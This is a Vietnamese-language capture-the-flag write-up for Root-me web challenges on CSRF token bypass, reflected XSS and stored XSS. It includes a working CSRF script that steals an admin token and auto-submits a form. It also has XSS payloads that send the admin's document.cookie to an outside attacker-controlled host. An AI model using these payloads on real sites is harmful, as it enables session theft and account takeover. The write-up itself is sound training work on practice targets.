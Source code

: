 # Root-me
``capy3ra``

## CSRF – token bypass

1. Để lấy được flag trong action=private thì tài khoản của attacker phải được admin approved bằng cách tick checkbox ở action=profile.
2. Vector tấn công ở đây sẽ là action=contact khi mà gửi comment thì admin sẽ đọc comment. Và ta sẽ poisoning input đó.
3. Tuy nhiên ở đây, server triển khai csrf token. Do đó trước hết phải lấy được token của admin ở action=profile. Chúng ta có thể lấy được token đó bằng cách gửi một request đến action=profile với admin session khi mà ta lừa admin đọc comment mà ta gửi kèm với payload. 
```
var request = new XMLHttpRequest();
request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
request.send(null); 
var respone = request.responseText; 
var groups = respone.match("token\" value=\"(.*?)\""); 
var token = groups[1];
```

4. Sau đó tạo một form có checkbox có giá trị "on" với username account của attacker được tự động gửi. Dẫn đến account của attacker có thể được admin approved.
5. Toàn bộ Payload:
```
<form name="csrf" method="POST" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" enctype="multipart/form-data">
	<input id="username" type="text" name="username" value="cuong">
	<input id="status" type="checkbox" name="status" checked value="on">
	<input id="token" type="hidden" name="token" value= />
</form>

<script>
 	var request = new XMLHttpRequest();
 	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
 	request.send(null); 
 	var respone = request.responseText; 
 	var groups = respone.match("token\" value=\"(.*?)\""); 
 	var token = groups[1];
	document.getElementById("token").value = token;
    document.csrf.submit();

</script>
```
6. Vào action=private lấy flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/b6eb6b27-cf83-4790-9ac6-c4e93463e4ac)

## XSS - Reflected

1. Ở đây khi view source của trang home nhận thấy một comment trỏ đến một endpoint khả nghi
``<!--li><a href="?p=security">Security</a></li-->``
2. Khi truy cập đến endpoint đó, trang trả về trang not found nhưng có một tính năng có khả năng thực thi xss đó là `report to the adminitrator` nó sẽ gửi url hiện tại cho admin.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/7c494b7f-f1cf-49fa-b604-d85729af6a51)
3. Khi thử chèn xss payload `<script>alert(1)</script> vào param p thì nhận thấy nó vẫn nằm trong thuộc tính href và bị escapse.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/3cc8c278-2390-4402-91be-42088bbce90c)
4. Thử inject để escapse thuộc tính href bằng payload `test' onmousemove='alert(document.cookie)` thì nhận thấy thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/3f2b372a-201b-496f-ad39-3c4b08d983f1)
5. Craft payload để sau khi report url cho admin mà admin thực hiện một event xác định đó thì sẽ redirect tới trang mà attacker có thể kiểm soát. Payload:
``test' onmousemove='document.location="http://oceanmancuonh.site?cmd=".concat(document.cookie)``
6. Vào access_log của server để có thể lấy được cookie có chứa flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/74394933-97c5-48f9-add3-1ef5c9f3488e)

## XSS - Stored 2

1. Ở bài này nhận thấy rằng input truyền vào ở title và message đều bị filter không thể inject xss được.
2. Tuy nhiên nhận thấy khi thay đổi giá trị cookie status thì nó cũng reflect lại ở phần Posted messages.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/36fee880-5d29-41aa-b5af-ecee91de1c54)
3. Inject thử xss vào với payload `"><script>alert(1)</script>` thì thấy thành công.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/06fbd079-8e1e-471b-94ca-09e2653253ab)
4. Được biết sau khi gửi message thì admin sẽ đọc và dựa vào tiêu đề chal -> ta sẽ thực  hiện stored xss với payload sau để lấy cookie của admin.
``"><script>document.location='http://oceanmancuonh.site?c='+document.cookie</script>``
5. Vào access_log thì nhận thấy chúng ta có được admincoookie.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/f30cfa35-49b8-4c86-b50f-50495d8cda27)
6. Thêm admincookie rồi vào endpoint session=admin thì nhận được flag.
![image](https://github.com/cuong9cm/CTFwriteup/assets/80744099/a0bee487-2455-4b01-911f-5f2a91328bf3)

## 
